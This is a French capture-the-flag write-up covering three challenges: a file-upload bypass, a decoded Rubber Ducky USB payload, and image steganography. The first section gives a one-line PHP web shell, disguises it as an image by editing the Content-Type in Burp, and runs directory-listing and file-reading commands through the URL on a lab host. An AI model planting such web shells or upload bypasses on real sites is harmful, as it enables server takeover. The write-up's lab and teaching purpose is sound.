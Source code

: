 # Secu
### 1 . Upload_medium
Il faut tout d'abord créer un fichier en `.php` comme par exemple, `payload.php`.
Ce dossier devra contenir les lignes suivantes :
```
<?php
echo shell_exec($_GET['cmd']);
?>*
```
Ensuite, nous avant de l'upload, nous utiliserons une extension de navigateur comme par exemple Foxy proxy et le logiciel Burp afin de pouvoir changer le fichier envoyé.
Grace a burp, nous devons modifier la ligne :
`Content-Type: application/octet-stream`
par :
`Content-Type: image/png`
Il faut ensuite appuyer sur forward dans Burp.
et enfin désactiver notre proxy.

On arrive sur la partie délicate, il faut ouvrir le fichier étant apparu sur la page.
Grace au php, nous avons accès au cmd depuis le lien du site, il suffit de le modifier un peu:
`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=`

donc il suffit de mettre:
`ls` qui permet de lire le dossier
`%20` qui place des espaces
`-la` qui permet de voir les fichiers cachés
`../` qui permet de revenir en arrière

dans un vrai cmd, la commande nous donnerais:
`ls -la ../../`
et parmis les fichiers, nous voyeons un dossier qui s'appelle `.flag`

ensuite, nous remplaçons `ls -la` (ls%20-la) par `cat%20` et on rajoute a la fin le nom du fichier, se qui nous ouvre le fichier avec le flag a l'intérieur

`http://ctf-labo.cyber-stuff.net/upload_medium/uploads/test.php?cmd=cat%20../../.flag`




* 2 . The DSI's yellow usb key

Le rubber ducky hack, est donc un fichier intégré a une clef USB qui tape des commandes a notre place, ce qui permet de rapidement pirater une session laissée ouverte.

Donc une fois le fichier donné téléchargé, il faut d'abord le décomprésser (comme Winrar ou 7-zip)

et vous optenez un fichier `.dd`

Sous mac, il suffit d'entrer la commande 
`hdiutil attach -imagekey diskimage-class=CRawDiskImage dump.dd`
se qui nous donne un fichier `inject.bin`
et ensuite, nous utilisons un site afin de décoder le fichier inject.bin : 
`https://ducktoolkit.com/decoder/`

le decodage nous donne l'adresse d'un fichier exe qui est en faite un .txt contenant le flag


* 3 . I Lowe runnig

Cette fois si, c'est plutôt simple, il suffit de télécharger l'image et de l'upload sur ce site : 
`https://incoherency.co.uk/image-steganography/#unhide`
L'image contenait un texte caché étant donc le flag.